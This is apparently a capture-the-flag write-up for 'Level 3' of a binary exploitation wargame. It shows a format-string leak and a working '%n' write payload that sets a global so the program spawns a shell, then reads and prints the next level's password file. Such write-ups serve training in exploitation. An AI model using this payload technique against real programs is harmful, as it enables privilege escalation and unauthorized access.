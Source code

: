 # Level 3
*pass: 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02*

```
$ scp -P 4242 level3@192.168.56.108:level3 .
```

```
  if (m == 0x40) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
```

`0x40` = 64
`m` address : 0x0804988c

```
$ python -c 'print "\x8c\x98\x04\x08 %p %p %p %p %p %p"' | ./level3 
� 0x200 0xb7fd1ac0 0xb7ff37d0 0x804988c 0x20702520 0x25207025
```
address at parameters 4th.

```
$ python -c 'print "\x8c\x98\x04\x08%60u%4$n"' > /tmp/level3
$ cat /tmp/level3 - | ./level3
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```